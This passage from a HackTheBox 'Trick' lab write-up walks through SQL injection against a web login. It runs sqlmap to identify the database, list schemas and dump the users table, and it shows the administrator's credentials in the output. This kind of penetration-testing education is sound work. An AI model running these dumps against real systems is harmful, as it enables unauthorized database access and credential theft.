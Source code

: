 Go to `/users.php` and we find the Administrator username, `Enemigosss`.
![](/assets/images/htb-writeup-trick/trick02.png)

We don't have any password yet, and trying a quick spray doesn't bite. Instead we look to SQL Injection and we find something interesting. 

![](/assets/images/htb-writeup-trick/trick03.png)

Quickly test it out with `sqlmap`:
```bash
➜  trick sqlmap -r sql-injection.txt
[... snip ...]
[20:55:21] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

➜  trick sqlmap -r sql-injection.txt -dbs
[... snip ...]
[*] information_schema
[*] payroll_db

➜  trick sqlmap -r sql-injection.txt -D payroll_db -T users -C username,password --dump
[... snip ...]
Database: payroll_db
Table: users
[1 entry]
+------------+-----------------------+
| username   | password              |
+------------+-----------------------+
| Enemigosss | SuperGucciRainbowCake |
+------------+-----------------------+
```
